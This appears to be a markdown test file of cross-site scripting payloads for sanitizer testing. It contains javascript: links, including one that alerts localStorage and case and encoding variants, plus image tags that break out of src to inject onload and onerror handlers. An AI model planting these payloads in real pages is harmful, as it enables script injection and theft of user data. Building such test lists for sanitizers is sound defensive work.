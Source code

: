 # VALID XSS

## Links

[Basic](javascript:alert('Basic'))

[Local Storage](javascript:alert(JSON.stringify(localStorage)))

[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))

[URL](javascript://www.google.com%0Aalert('URL'))

[In Quotes]('javascript:alert("InQuotes")')

## Images

![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))

![Escape SRC - onerror]("onerror="alert('ImageOnError'))